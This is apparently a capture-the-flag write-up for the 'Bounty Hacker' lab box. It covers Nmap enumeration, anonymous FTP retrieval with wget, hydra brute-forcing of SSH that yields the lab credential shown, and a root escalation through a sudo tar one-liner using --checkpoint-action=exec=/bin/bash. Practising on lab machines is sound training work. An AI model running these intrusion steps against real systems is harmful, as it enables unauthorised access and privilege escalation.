



# Bounty Hacker

---

## Enumeration

Initial reconnaissance was conducted using **Nmap**, which revealed the following open ports and services:

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
```

**OS Detection:**
```
Aggressive OS guesses: Linux 4.15 (94%), Linux 2.6.32 - 3.13 (93%), ...
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Since a web server was available, I attempted directory fuzzing using `ffuf`, but it did not return any useful results.

Next, I checked the FTP service for anonymous access:

```bash
wget -m --no-passive ftp://anonymous:anonymous@<target>
```

This successfully retrieved two files:
- One containing a potential username: `lin`
- The other appearing to be a password wordlist

---

## SSH Access

Using the username and wordlist discovered, I launched a brute-force attack with `hydra`:



**Valid credentials obtained:**
```
Username: lin
Password: RedDr4gonSynd1cat3
```

With these, I successfully gained shell access via SSH.

---

## Privilege Escalation

Privilege escalation was straightforward. Running `sudo -l` revealed that the user had sudo privileges over the `tar` command:



This allowed escalation via the following command:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```
*(This command tells tar to execute an action for each file it processes — in this case, the action is launching an interactive shell.)*

This granted a root shell:


